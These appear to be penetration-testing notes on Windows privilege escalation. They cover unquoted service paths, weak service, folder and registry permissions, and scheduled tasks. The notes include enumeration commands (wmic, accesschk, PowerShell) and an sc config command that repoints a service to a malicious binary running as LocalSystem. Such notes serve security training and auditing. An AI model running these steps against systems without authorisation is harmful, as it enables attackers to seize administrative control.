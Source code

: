 Services

Find services running with elevated privileges. Two main categories of vulnerabilities:
	- Weak service path
	- Weak permissions

. . .

Unquoted Service Path

If a privileged service is running and pointing to an unquoted service path with spaces, then Windows has to guess where the executable file is. It guesses in this order:

C:\Services\My | Spaced Directory\Service.exe
C:\Services\My Spaced | Directory\Service.exe
C:\Services\My Spaced Directory\Service.exe

It assumes that each space, from left to right, is the dividing point between the executable and the arguments passed to that executable. So to exploit this situation, you could create a malicious executable and place it at the location below:

C:\Services\My.exe

To find services with spaces and without quotes, run the following CMD command:
wmic service get name,startname,startmode,pathname | findstr /i /v "c:\windows" | findstr /v """
Or try this alternative using regex:
wmic service get name,startname,startmode,pathname | findstr /r /c:"\\.* .*exe" | findstr /v """

. . .

Weak Permissions Around Service
	- Folder permissions -- replace executable
	- Service permissions -- change executable path and executing account
	- Registry permissions -- same through registry

Folder Permissions
To check folder permissions:
accesschk.exe -dv <username> <folder>

To exploit, replace the executable with a malicious one

Service Permissions
To check service permissions:
accesschk.exe -cv <username> <service_name>

To check current service config:
sc qc <service_name>

To modify service config:
sc config <service_name> binPath= "c:\path\to\malicious" obj= LocalSystem

Registry Permissions
Open regedit and navigate to:
Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<service_name>

. . .

Scheduled Tasks

List scheduled tasks that aren't running as the current user:
get-scheduledtask | select * | where {$_.principal.userid -notlike "*$env:username*"} | format-table -property @{expression={$_.principal.userid}},taskpath,taskname,date

See what files are executed by a task (PowerShell):
$task = get-scheduledtask -taskname <task_name>
foreach ( $action in $task.actions ) { echo $action.execute }

Check permissions on those files:
accesschk.exe -v <username> <file>

If readable, then see what the executable is doing.
If writable, then replace with malicious.

. . .
